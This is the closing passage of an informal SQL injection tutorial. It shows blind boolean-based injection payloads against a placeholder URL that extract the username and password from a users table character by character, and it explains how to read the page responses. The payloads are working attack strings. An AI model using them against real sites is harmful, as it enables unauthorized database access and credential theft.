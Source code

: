   b. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99`

6. the page load normaly

  a. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>104`

7. the page loads normally, higher !!!

  a. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>107`

8. error ! lower number

  a. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>105`

9. Error That we search!!

10. now, we know that the second character is char(105) and that is 'i' with the ascii converter. We have 'ci' now from the first and the second charactets


our tutorial draws to the close!

Thanks you for reading and i hope that you have understand SQL Injection and exploitations of this vulnerability .
